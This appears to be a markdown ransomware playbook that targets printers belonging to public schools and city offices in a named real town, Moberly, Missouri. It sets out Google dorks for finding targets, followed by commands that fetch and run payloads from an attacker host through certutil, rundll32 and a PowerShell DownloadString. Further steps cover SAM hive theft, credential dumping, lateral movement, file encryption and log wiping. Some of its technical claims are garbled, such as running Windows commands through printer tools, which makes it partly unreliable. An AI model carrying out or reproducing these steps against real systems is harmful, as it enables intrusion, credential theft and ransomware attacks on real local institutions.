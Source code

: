 
## 🧨 Pre-Ransomware Killchain – Target: Moberly, Missouri

### 🎯 Goal:

Identify exposed print infrastructure in **Moberly, Missouri**, use fileless exploitation methods to gain initial access, and prepare for lateral movement or ransomware delivery via in-memory payloads.

---

## 🔹 Step 1: Target Discovery via Google Dorks

**Objective:** Locate exposed network printers or vulnerable administrative interfaces in Moberly, MO.

### 🧪 Google Dorks Specific to Moberly, Missouri

```txt
inurl:"/hp/device/this.LCDispatcher" "Moberly"
intitle:"Printer Status" "Moberly Public Schools"
intitle:"Web Image Monitor" inurl:"/wim" "Moberly"
inurl:"/printer/main.html" "City of Moberly"
intitle:"Web JetAdmin" inurl:hp "Moberly"
```

🔍 Use in combination with:

* `site:.mo.us`, `site:moberly.k12.mo.us`
* `intitle:"Konica" OR intitle:"HP LaserJet"` for specific vendors
* Search engines: **Shodan**, **Censys**, **ZoomEye**

---

## 🔹 Step 2: Fingerprint Exposed Printers

**Objective:** Validate access, identify exploitable services, and prep payload delivery.

### 🔍 Techniques:

```bash
nmap -Pn -p 80,443,515,631,9100 --script=http-title,snmp-info <target-IP>
snmpwalk -v1 -c public <target-IP>
```

🧰 If exposed, interact using:

* `PRET` (Printer Exploitation Toolkit)
* `JetDirect` port 9100 (raw print stream)
* Default admin interfaces (test for no auth)

---

## 🔹 Step 3: In-Memory Payload Delivery via Print Job

**Objective:** Filelessly execute commands or stage a DLL from memory.

### 🧬 PRET Exploit Example:

```bash
python pret.py <printer-ip> -q
pret> upload nsfw.jpg
pret> exec "certutil -urlcache -split -f http://attacker-ip/nsfw.jpg C:\\Windows\\Temp\\nsfw.jpg"
pret> exec "rundll32 C:\\Windows\\Temp\\nsfw.jpg,#1"
```

🩻 Alternatively:

```bash
echo "rundll32.exe \\attacker\nsfw.dll,#1" > /dev/tcp/<printer-ip>/9100
```

---

## 🔹 Step 4: Exploit CVE-2021-36934 (SeriousSAM) for Privilege Escalation

**Objective:** Abuse accessible shadow copies for registry hive extraction.

```powershell
Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" "$env:TEMP\SAM"
Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" "$env:TEMP\SYSTEM"
Copy-Item "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY" "$env:TEMP\SECURITY"
```

---

## 🔹 Step 5: Dump Credentials (RAM Execution)

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://attacker-ip/secretsdump.ps1")
Invoke-SecretsDump -System $system -Security $security -Sam $sam
```

Or via encoded shellcode + `Donut` + `Invoke-ReflectivePEInjection`.

---

## 🔹 Step 6: Lateral Movement

### `wmic` fileless pivot:

```cmd
wmic /node:"192.168.X.X" /user:"user" /password:"hash" process call create "rundll32.exe \\\\attacker\\share\\nsfw.dll,#1"
```

Or:

```powershell
Invoke-Command -ScriptBlock { rundll32.exe \\\\attacker\\share\\nsfw.dll,#1 } -ComputerName 192.168.X.X -Credential $cred
```

---

## 🔹 Step 7: Ransomware/Wiper Trigger (Optional Final Payload)

### Targeted Extension Destruction:

```
Encrypt or overwrite extensions: .docx, .xlsx, .sql, .zip, .pdf, .pst, etc.
```

### Evasion:

```cmd
wevtutil cl Security & wevtutil cl Application & fsutil usn deletejournal /D C:
```

---

## 🧬 Optional Dummy Target Deployment (Honeypot or Mirror)

Deploy a simulated printer in Moberly-style branding:

```bash
docker run -d -p 631:631 --name fake_printer ghcr.io/simulated-systems/ipp-printer:latest
```

Can be used for enticement or behavioral testing.

---

## 📌 MITRE ATT\&CK Mapping (Summary)

| Phase                | Technique                        | ID        |
| -------------------- | -------------------------------- | --------- |
| Reconnaissance       | Search Open Services             | T1595.002 |
| Initial Access       | Ingress Tool Transfer (certutil) | T1105     |
| Execution            | Rundll32, JetDirect              | T1218.011 |
| Privilege Escalation | Exploit SAM Backup Exposure      | T1068     |
| Credential Access    | Registry Hive Dumping            | T1003.002 |
| Lateral Movement     | WMI or PowerShell Remoting       | T1021.001 |
| Defense Evasion      | Log Deletion                     | T1070.001 |
| Impact               | Data Encryption for Impact       | T1486     |


